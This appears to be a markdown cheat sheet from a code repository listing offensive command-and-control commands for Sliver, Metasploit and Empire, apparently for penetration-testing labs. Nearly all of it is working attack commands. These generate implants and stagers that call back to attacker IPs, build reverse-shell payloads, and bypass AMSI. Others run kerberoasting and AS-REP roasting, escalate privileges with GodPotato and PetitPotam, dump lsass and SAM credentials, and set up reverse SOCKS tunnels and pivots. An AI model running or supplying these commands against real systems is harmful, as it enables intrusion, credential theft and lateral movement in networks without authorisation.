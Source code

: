 - [Sliver](#sliver)
  - [General](#general)
  - [Enum](#enum)
    - [Nomal](#nomal)
    - [Domain](#domain)
  - [Privilege Escalation](#privilege-escalation)
  - [Collection](#collection)
  - [Lateral Move](#lateral-move)
  - [Shellcode create](#shellcode-create)
    - [donut](#donut)
- [Metasploit](#metasploit)
- [Empire](#empire)

# Sliver
## General
```bash
/opt/sliver/sliver-server_linux

## Listener
http -L 10.0.0.1 -l 8088
jobs

## implant beacon
generate beacon --http 10.10.14.62:8088 -N mybe.exe
### beacon tasks
tasks
### go session
use ??
interactive

## implant shellcode 
### session
profiles new --http 10.0.0.1:8088 --format shellcode mypf
## stage-listener
stage-listener --url tcp://10.0.0.1:443 --profile mypf 
## stager
generate stager -b '00 0a cc' --lhost 10.0.0.1 --lport 443 --save stage.bin 
-f python

### beacon
generate beacon --http 10.10.14.62:8088 -N mybe.bin -f shellcode
```

## Enum
### Nomal
```bash
# Nomal
getprivs
seatbelt -- -group=all
sharpup -- audit

wget https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1
sharpsh -- '-u http://10.10.14.36/PowerView.ps1,http://10.10.14.36/PrivescCheck.ps1 -c get-netlocalgroup,invoke-privesccheck'
```
### Domain
```bash
# Nomal
c2tc-domaininfo
sharpview -- Get-Domain
sharpview --in-process --amsi-bypass -- Get-Domain

# ASROP
rubeus -- asreproast /format:hashcat /nowrap
# kerberoast
## enum
delegationbof 6 child.my.local
## attack
c2tc-kerberoast roast alice
rubeus -- kerberoast /format:hashcat /nowrap

# ADCS
certify -- find 
# Forest
execute -o powershell $Forest = [System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest(); $Forest.Domains
```

## Privilege Escalation
```bash
# GotPotato
execute-assembly /usr/share/windows-binaries/GodPotato-NET4.exe -cmd ''
## in current process
inline-execute-assembly

# PetitPotam
c2tc-petitpotam own target 
```

## Collection
```bash
# Nomal
##  NT AUTHORITY\SYSTEM
hashdump

# procdump
ps -e lsass
procdump --pid ??? /tmp/lsass.dmp
```

## Lateral Move
```bash
# chisel
https://github.com/jpillora/chisel/releases
# Reverse 
./chisel_1.9.0_linux_amd64 server -p 2345 --socks5 --reverse
## sliver
chisel client --max-retry-count 2 10.0.0.1:2345 R:socks
## Rscoks
tail /etc/proxychains4.conf
# forward
./chisel_1.9.0_linux_amd64 server -p 1234
## sliver
chisel client --max-retry-count 2 10.10.15.165:2345 8444:10.10.15.165:4444 8080:10.10.15.165:80

# pivot
## session
### Open 172.16.1.11:9898 for sliver
ifconfig
pivots tcp --bind 172.16.1.11

# name pipe
pivots named-pipe --bind Etaks
## implant
generate --named-pipe 172.16.1.11/pipe/academy -N pipe_Etaks 

# token
make-token -u svc_sql -d child.my.local -p Pass123
```

## Shellcode create
### donut
```bash
# nomal shell
donut -i /usr/share/windows-binaries/GodPotato-NET4.exe -a 2 -b 2 -p '-cmd c:\temp\mybe.exe' -o potato.bin

# sliver
execute-shellcode -p pid potato.bin
```

# Metasploit
```bash
# hundler
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT=1234 -f exe -o shell.exe
## to base64 
base64 -w0 shell.exe 
# start handler
use multi/handler
## htm c2
use exploit/windows/misc/hta_server
# sessions
sessions -l
sessions -i 1

# exploit suggest
use post/multi/recon/local_exploit_suggester

# privesc 
getsystem
migrate 

load kiwi
creds_all
lsa_dump_sam

# Port Forwading
use multi/manage/autoroute

use auxiliary/server/socks_proxy
set SRVHOST 127.0.0.1
set VERSION 5
run -j
jobs

# other
lcd /home/kali/Downloads
lpwd
download 
upload
```

# Empire
```bash
# first
listeners
uselistener http

usestager windows_launcher_vbs
usestager windows_cmd_exec

agents
interact
```
